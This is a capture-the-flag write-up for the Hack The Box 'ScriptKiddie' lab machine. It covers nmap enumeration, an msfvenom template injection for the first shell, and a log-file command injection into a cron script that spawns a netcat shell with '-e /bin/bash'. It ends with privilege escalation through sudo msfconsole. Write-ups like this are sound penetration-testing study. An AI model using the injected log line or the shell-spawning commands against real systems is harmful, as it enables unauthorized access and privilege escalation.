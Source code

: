 ```yaml
---
title: "HTB - ScriptKiddie"
date: 2021-06-10
draft: true
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/06/SK_Logo.png"
---
```

## Intro

## Target
[HTB - ScriptKiddie](https://app.hackthebox.eu/machines/314)

## Recon
 Initial recon tells us the box is running Linux, and that's about it!

## Enum
 During the enum phase

```text
sudo nmap -sC -sV -oA scans/fast $target_ip
```
```text
# Nmap 7.91 scan initiated Mon May 17 15:00:50 2021 as: nmap -sC -sV -oA scans/fast $target_ip
Nmap scan report for $target_ip
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 17 15:00:58 2021 -- 1 IP address (1 host up) scanned in 8.98 second
```

From this we discover an `SSH` service and a `Python webserver` on port 5000. It also confirms we are facing a Linux box.

Manually browsing to the website, we find that there are 3 tools : `nmap`, `searchsploit` anf `msfvenom`. After a few tries with `ffuf`, and `gobuster`, we couldn't find anything interesting.

However, after a quick search, `msfvenom` might be [vulnerable](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/).

## Exploitation
Let's test our theory and see if we can get a shell.

### Getting Initial Shell
In order to do so, we will fire up `MetaSploit` and generate a payload (we could also [download](https://www.exploit-db.com/exploits/49491) a payload and slightly modify it).

We then upload the payload as an Android template and before submitting it, let's not forget to start ar listener like so : `nc -nlvp 9001` (or your usual port). Let's, now, submit the request, and you should get a shell back as use kid. From here, I like to generate an ssh key and add it to the `.ssh/authorized_keys` for easier access. 

Once this is done, I have a proper shell and way to come back easily.

Let's grab `user`'s flag:

![User Flag](/images/2021/06/SK_User_Flag.png)

### Pivoting
Now that we are kid user, we notice that there is also a pwn user that is running a script periodically. Even more interestingly, it uses a file owned by kid as input.

The script in question is located at `/home/pwn/scanlosers.sh`  and looks like below:

```text
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

After a quick look at the script, we notice that it is reads the the file `/home/kid/logs/hackers`, search for the third field on the line, and run an `nmap` scan against this field.

Now we can trick this script into running a custom command after the `nmap`'s one.

After a few trial and errors, I arrived to the following line of code :

`echo "1 2 127.0.0.1';/home/kid/nc.sh;date" > /home/kid/logs/hackers`

with `nc.sh` being:

```text
#!/bin/bash

/home/kid/nc -lvp 9001 -e /bin/bash
```

Don't forget to run a listener on port 9001, in order to grab the reverse shell. I would have wanted to do the "ssh trick" for easier access, but the `.ssh/authorized_keys` is owned by root... So I'll have to make it do with the temporary shell as `pwn`'s user.


### PrivEsc
Now that we are pwn, let's start by a simple `sudo -l` :

![pwn sudo](/images/2021/06/SK_pwn_sudo.png)

msfconsole can be run as root without password.... let's do it and cat the `root`'s flag:

![Root Flag](/images/2021/06/SK_Root_Flag.png)

## Outro
This was quite a fun box, with a few extra steps for an "easy" machine. It also shows that hackers can be hacked! ;)